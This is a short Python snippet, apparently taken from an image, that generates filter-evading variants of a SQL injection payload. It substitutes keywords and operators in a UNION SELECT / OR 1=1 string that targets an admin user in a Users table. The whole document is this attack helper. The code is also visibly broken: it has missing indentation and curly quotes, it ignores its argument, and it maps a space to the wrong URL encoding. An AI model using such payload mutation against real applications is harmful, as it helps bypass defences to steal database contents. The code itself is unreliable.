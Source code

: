 ```py
def encoder(string):

subs = []
values = {“ “: “%50”, “SELECT”: “HAVING”, “AND”: “&&”, “OR”: “||”}
originalstring = “' UNION SELECT * FROM Users WHERE username = 'admin' OR 1=1 AND username = 'admin'”
secondoriginalstring = originalstring
for key, value in values.iteritems():
  if key in originalstring:
    newstring = originalstring.replace(key, value)
    subs.append(newstring)
  if key in secondoriginalstring:
    secondoriginalstring = secondoriginalstring.replace(key, value)
    subs.append(secondoriginalstring)

subset = set(subs)
return subset
```